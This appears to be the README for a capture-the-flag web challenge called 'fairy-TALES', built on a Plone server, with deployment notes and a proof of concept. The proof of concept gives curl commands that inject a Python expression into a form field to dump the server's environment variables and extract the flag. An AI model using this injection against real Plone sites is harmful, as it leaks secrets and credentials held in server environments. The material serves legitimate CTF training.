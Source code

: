 # Black Alps 2024 CTF - Challenge details - fairy TALES

![Black Alps](plone/img/Logo.svg)

Challenge name: fairy-TALES

Category: Web

Difficulty: MEDIUM

Author: Gata Renault

# Description

> Your tale-enthusiast friend Zoe has written a tale about the mystical Black Alps and published it on a superb website. Could you please give some feedback on the story?


# Requirements

Hardware requirements:
- [Same requirements as Docker](https://6.docs.plone.org/install/containers/index.html).

Software requirements:
- Plone server running on Docker.
- Reverse proxy (e.g. see `webserver` > `default.template` for the configuration file) exposing the port 80 and rewriting the client requests to the Plone backend server as detailed in [nginx, Plone Classic container example](https://6.docs.plone.org/install/containers/examples/nginx-plone.html)


# Deployment Instructions

Deploy the plone server with the `docker-compose.yml` file.

The following default variables are defined in the `.env` file:
```
FLAG=ThisIsTheFlag
SERVER_NAME=zoesblog
SITE_NAME=MyTalesBlog
```

The reverse proxy should be configured as follow:
- Listen on Port 80/443: Accept incoming HTTP(S) requests.
- Set the `Host`, `X-Real-IP`, `X-Forwarded-For` and `X-Forwarded-Proto` client headers
- Rewrites the URL to include `/VirtualHostBase/http/${SERVER_NAME}:80/${SITE_NAME}/VirtualHostRoot/` before passing it to the upstream server.
- Proxy Pass to forward requests with `/VirtualHostBase/` to the backend-server `http://plone:8080`.

# Writeup

COMING SOON.

## Easy PoC

On windows: 
- `curl -X POST http://zoesblog/8815a951-3303-48dd-a9b0-f76a7ed42a85/@@edit -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWRn1I70PHCCA3Jnl" --form "form.widgets.IDublinCore.title=Zoe's Form" --form "form.widgets.thankstitle=Thank You" --form "form.widgets.submitLabelOverride=python: \"{a._os.environ}\".format_map({'a': random})" --form "form.buttons.save=Save"`
- `curl -s http://zoesblog/8815a951-3303-48dd-a9b0-f76a7ed42a85 | findstr "FLAG"`

On Linux:
- `curl -X POST http://zoesblog/8815a951-3303-48dd-a9b0-f76a7ed42a85/@@edit -H "Content-Type: multipart/form-data" -F "form.widgets.IDublinCore.title=Zoe's Form" -F "form.widgets.thankstitle=Thank You" -F "form.widgets.submitLabelOverride=python: \"{a._os.environ}\".format_map({'a': random})" -F "form.buttons.save=Save"`
- `curl -s http://zoesblog/8815a951-3303-48dd-a9b0-f76a7ed42a85 | grep "FLAG"`

NOTE: 
- Replace the `SERVER_NAME` (`zoesblog`) with chosen one.
- Add SSL-encryption in the PoC (`http` -> `https`) if the server only supports TLS.
